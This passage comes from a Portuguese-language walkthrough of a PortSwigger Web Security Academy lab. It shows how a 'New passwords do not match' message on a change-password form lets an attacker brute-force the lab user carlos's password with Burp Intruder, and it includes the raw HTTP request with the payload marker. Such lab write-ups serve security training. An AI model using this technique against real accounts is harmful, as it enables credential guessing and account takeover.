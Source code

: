 ![alterar](change_flag.png)

E é através dessa mensagem **New passwords do not match** que vamos fazer o brute-force na senha do usuário `carlos`.

Vamos usar o `intruder` do **Burp Suit** para enviar a requisição e alterar o parâmetro `current password` para uma lista de senhas que o laboratório nos fornece.

```http

POST /my-account/change-password HTTP/1.1
Host: 0a6400d703a3c22ec2f0c53b00640052.web-security-academy.net
Cookie: session=yKqzNle7KN7rOq3j47YyzoZeWdj7s7db; session=HkVFVOoMwGCt8VGpwFt171avoKvvyofC
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Origin: https://0a6400d703a3c22ec2f0c53b00640052.web-security-academy.net
Referer: https://0a6400d703a3c22ec2f0c53b00640052.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

username=carlos&current-password=§sonael§&new-password-1=sonael&new-password-2=neto

```
